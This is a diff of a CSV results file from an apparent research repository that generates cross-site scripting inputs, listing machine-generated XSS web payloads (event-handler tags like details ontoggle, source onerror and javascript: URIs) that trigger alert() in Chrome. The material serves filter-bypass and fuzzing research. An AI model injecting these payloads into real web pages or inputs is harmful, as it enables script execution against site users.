

Before and after one commit to selimaynigul/llm-injection-generator, a CSV file: result/gan_result_chrome.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

```diff
--- a/result/gan_result_chrome.csv
+++ b/result/gan_result_chrome.csv
@@ -104 +104,8 @@ body_tag,"<embed src='javascript:alert(""XSS9"");'><body onload='alert(""XSS3"")
 body_tag,"<embed src='javascript:alert(""XSS9"");'><div onmouseover='alert(""XSS6"");'><img src='x' onerror='alert(""XSS9"")'>"
+body_tag,<details open='' ontoggle='alert(1)'><audio src='x' onerror='alert(1)'><source onerror='alert(1)'>
+body_tag,<details open='' ontoggle='alert(1)'><source onerror='alert(1)'><video>
+body_tag,<video><source onerror='alert(1)'><source onerror='alert(1)'>
+body_tag,<video><source onerror='alert(1)'><video>
+body_tag,<video><source onerror='alert(1)'><video>
+body_tag,<details open='' ontoggle='alert(1)'><frame src='javascript:alert(1)'><video>
+body_tag,<details open='' ontoggle='alert(1)'><source onerror='alert(1)'><details open='' ontoggle='alert(1)'>
```
Also changed, not shown: result/ga_result_llm.csv, result/gan_result_vec_chrome.csv, 9 other files.
